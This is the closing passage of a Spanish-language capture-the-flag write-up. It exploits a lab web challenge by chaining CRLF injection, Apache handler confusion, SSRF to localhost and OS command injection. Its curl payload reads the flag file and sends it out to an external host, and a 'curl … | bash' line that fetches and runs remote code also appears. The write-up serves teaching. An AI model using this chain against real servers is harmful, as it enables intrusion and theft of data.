 ```sh
$ curl -i 'http://83.136.249.227:46378/cgi-bin/attack-domain?target=x&name=v%0d%0aLocation:/hfc%0d%0aContent-Type:proxy:http://127.0.0.1/cgi-bin/attack-ip%3ftarget=::1%$(curl%2bhttps://<--REDACTED-->?flag=`cat%2b/flag*|base64`)%26name=v%0d%0a%0d%0a'
HTTP/1.1 302 Found
Date: Wed, 26 Mar 2025 03:42:19 GMT
Server: Apache/2.4.54 (Debian)
Location: ../?result=Succesfully attacked ::1%$(curl hackersfight.club:8000|bash)!
Content-Length: 331
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>302 Found</title>
</head><body>
<h1>Found</h1>
<p>The document has moved <a href="../?result=Succesfully attacked ::1%$(curl https://<--REDACTED-->?flag=`cat /flag*|base64`)!">here</a>.</p>
<hr>
<address>Apache/2.4.54 (Debian) Server at 127.0.0.1 Port 80</address>
</body></html>
```

Finalmente, recibiendo la petición desde el servidor vulnerable y consiguiendo la bandera.

```sh
$ grep flag access.log
83.136.249.227 - - [26/Mar/2025:03:42:19 +0000] "GET /?flag=SFRCe2g0bmRsMW42X200bDRrNHI1X2YwcmMzNX0= HTTP/1.1" 200 4252 "-" "curl/7.74.0"

$ echo 'SFRCe2g0bmRsMW42X200bDRrNHI1X2YwcmMzNX0='|base64 -d
HTB{h4ndl1n6_m4l4k4r5_f0rc35}
```

## Referencias útiles

- [Orange Tsai | Confusion Attacks: Exploiting Hidden Semantic Ambiguity in Apache HTTP Server!](https://blog.orange.tw/posts/2024-08-confusion-attacks-en/)
- [Python docs | ipaddress — IPv4/IPv6 manipulation library](https://docs.python.org/3/library/ipaddress.html)
- [RFC 4007 | IPv6 Scoped Address Architecture](https://datatracker.ietf.org/doc/html/rfc4007.html)
- [PortSwigger | Server-Side Request Forgery](https://portswigger.net/web-security/ssrf)
- [PortSwigger | OS Command Injection](https://portswigger.net/web-security/os-command-injection)

